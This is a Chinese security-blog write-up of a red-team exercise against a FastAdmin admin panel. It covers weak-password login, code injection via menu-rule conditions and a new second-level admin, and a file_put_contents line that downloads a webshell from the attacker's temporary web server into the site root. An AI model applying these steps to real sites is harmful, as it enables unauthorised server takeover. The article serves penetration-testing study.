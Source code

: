 #  记一次FastAdmin后台Getshell

culprit  [ 橘猫学安全 ](javascript:void\(0\);)

**橘猫学安全** ![]()

微信号 gh_af700ee13397

功能介绍 每日一干货🙂

____

___发表于_

收录于合集 #网络安全技术 211个

FastAdmin介绍  
  
FastAdmin是基于ThinkPHP5和Bootstrap的极速后台开发框架，基于ThinkPHP行为功能实现的插件机制，拥有丰富的插件和扩展，可直接在线安装卸载。基于完善的Auth权限控制管理、无限父子级权限分组、可自由分配子级权限、一个管理员可同时属于多个组别。  
测试过程  
  
在某次HVV的打点过程中，发现某资产为FastAdmin搭建。下图为FastAdmin的报错页面，根据经验可判断该网站为FastAdmin搭建。![]()  
输入admin.php进入后台登录页面，弱口令进入后台。![]()![]()  
进入后台找功能点getshell。后台默认会有插件管理功能，但是我们在后台没有找到这个功能，我们直接访问插件管理的地址

  * 

    
    
    /admin/addon?ref=addtabs

![]()  
理论上离线安装 Fileix文件管理器 ，然后上传一句话木马就可以getshell，但是很可惜失败了。![]()  
接着翻后台，发现有定时任务功能，尝试反弹shell，写入反弹shell的语句后，在服务器上nc监听等待回连，但是发现并没有执行。![]()  
后面一看之前管理员设置过的定时任务也没有执行过，失败！![]()  
继续翻后台，发现在菜单规则中可以创建规则条件，尝试在功能点中写入phpinfo()。必须写在权限管理中！！！![]()  
然后来到管理员管理中，添加一个管理员。所属组别必须为二级管理员组！！！![]()  
添加完成之后，重新用新添加的账户登录后台，可以发现phpinfo()被成功执行。![]()  
通过搜索$_SERVER[‘DOCUMENT_ROOT’]获取网站根目录，为/www/wwwroot/xxxxxxxxx/![]()  
找到根路径后注销账户，准备一个webshell木马名为1.php，放在自己的服务器上，使用python启动一个临时web。

  * 

    
    
    python3 -m http.server 8080

![]()  
在回到管理后台当中，在同样的位置写入如下语句，将远程服务器的webshell木马下载到网站根目录。

  * 

    
    
    file_put_contents('/www/wwwroot/xxxxxxxxx/shell.php',file_get_contents('临时web地址/1.php'))

![]()  
保存完成后，再次使用刚才新创建的用户登录![]()![]()  
webshell木马已被成功写入。![]()  
总结  
  
在打点过程中， 通过指纹识别软件进行指纹识别进行相应的漏洞利用，在未识别出指纹的需人工判断，根据报错页面的样式识别指纹一种较好的方法。  
  
整体打点过程：浏览网站—>发现报错页面指纹为FastAdmin—>通过弱口令进入后台—>规则条件中写入phpinfo()—>获得网站根目录—>规则条件中写入webshell。  

  *   * 

    
    
    文章来源：culprit（语雀）原文地址：https://www.yuque.com/culprit/note/nyvtuz

  
如有侵权，请联系删除

 **推荐阅读**

[实战|记一次奇妙的文件上传getshell](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495718&idx=1&sn=e25bcb693e5a50988f4a7ccd4552c2e2&chksm=c04d7718f73afe0e282c778af8587446ff48cd88422701126b0b21fa7f5027c3cde89e0c3d6d&scene=21#wechat_redirect)  
[「 超详细 | 分享
」手把手教你如何进行内网渗透](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495694&idx=1&sn=502c812024302566881bad63e01e98cb&chksm=c04d7730f73afe267fd4ef57fb3c74416b20db0ba8e6b03f0c1fd7785348860ccafc15404f24&scene=21#wechat_redirect)  
[神兵利器 | siusiu-
渗透工具管理套件](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495385&idx=1&sn=4d2d8456c27e058a30b147cb7ed51ab1&chksm=c04d69e7f73ae0f11b382cddddb4a07828524a53c0c2987d572967371470a48ad82ae96e7eb1&scene=21#wechat_redirect)  
[一款功能全面的XSS扫描器](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495361&idx=1&sn=26077792908952c6279deeb2a19ebe37&chksm=c04d69fff73ae0e9f2e03dd8e347f35d660a7fd3d51b0f5e45c8c64afc90c0ee34c4251f9c80&scene=21#wechat_redirect)  
[实战 |
一次利用哥斯拉马绕过宝塔waf](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495331&idx=1&sn=94b63a0ec82de62191f0911a39b63b7a&chksm=c04d699df73ae08b946e4cf53ceea1bc7591dad0ce18a7ccffed33aa52adccb18b4b1aa78f4c&scene=21#wechat_redirect)  
[BurpCrypto:
万能网站密码爆破测试工具](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495253&idx=1&sn=d4c46484a44892ef7235342d2763e6be&chksm=c04d696bf73ae07d0c16cff3317f6eb847df2251a9f2332bbe7de56cb92da53b206cd4100210&scene=21#wechat_redirect)  
[快速筛选真实IP并整理为C段 --
棱眼](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495199&idx=1&sn=74c00ba76f4f6726107e2820daf7817a&chksm=c04d6921f73ae037efe92e051ac3978068d29e76b09cf5b0b501452693984f96baa9436457e4&scene=21#wechat_redirect)  
[自动探测端口顺便爆破工具t14m4t](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495141&idx=1&sn=084e8231c0495e91d1bd841e3f43b61c&chksm=c04d6adbf73ae3cdbb0a4cc754f78228772d6899b94d0ea6bb735b4b5ca03c51e7715b43d0af&scene=21#wechat_redirect)  
[渗透工具｜无状态子域名爆破工具（1秒扫160万个子域）](http://mp.weixin.qq.com/s?__biz=Mzg5OTY2NjUxMw==&mid=2247495099&idx=1&sn=385764328aff5ec49acddab380721af0&chksm=c04d6a85f73ae393ffab22021839f5baec3802d495c34fb364cbdd9b7cb0cf642851e9527ba7&scene=21#wechat_redirect)  
 **查看更多精彩内容，还请关注** **橘猫学安全：** **每日坚持学习与分享，觉得文章对你有帮助可在底部给点个“** **再看 ”**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

